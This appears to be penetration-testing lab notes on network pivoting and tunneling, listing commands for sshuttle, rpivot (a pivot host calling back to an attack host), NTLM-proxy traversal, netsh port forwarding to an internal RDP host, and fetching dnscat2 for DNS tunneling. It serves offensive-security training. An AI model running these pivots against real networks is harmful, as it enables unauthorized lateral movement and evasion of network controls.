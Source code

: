 ```
```
Running sshuttle
```
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v
```
With this command, sshuttle creates an entry in our iptables to redirect all traffic to the 172.16.5.0/23 network through the pivot host.
Traffic Routing through iptables Routes
```
 nmap -v -sV -p3389 172.16.5.19 -A -Pn
```
## Web Server Pivoting with Rpivot
Cloning rpivot
```
sudo git clone https://github.com/klsecservices/rpivot.git
```
Installing Python2.7
```
sudo apt-get install python2.7
```
Running server.py from the Attack Host
```
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
Transfering rpivot to the Target
```
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
Running client.py from Pivot Target
```
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
Confirm Connection is Established
Then Browser the target webserver using proxychains

Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Port Forwarding with Windows Netsh
Netsh is a Windows command-line tool that can help with the network configuration of a particular Windows system. Here are just some of the networking related tasks we can use Netsh for:

- Finding routes
- Viewing the firewall configuration
- Adding proxies
- Creating port forwarding rules

### Using Netsh.exe to Port Forward
```
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```
### Verifying Port Forward
```
C:\Windows\system32> netsh.exe interface portproxy show v4tov4
```
## DNS Tunneling with Dnscat2
### Setting Up & Using dnscat2
```
git clone https://github.com/iagox86/dnscat2.git
```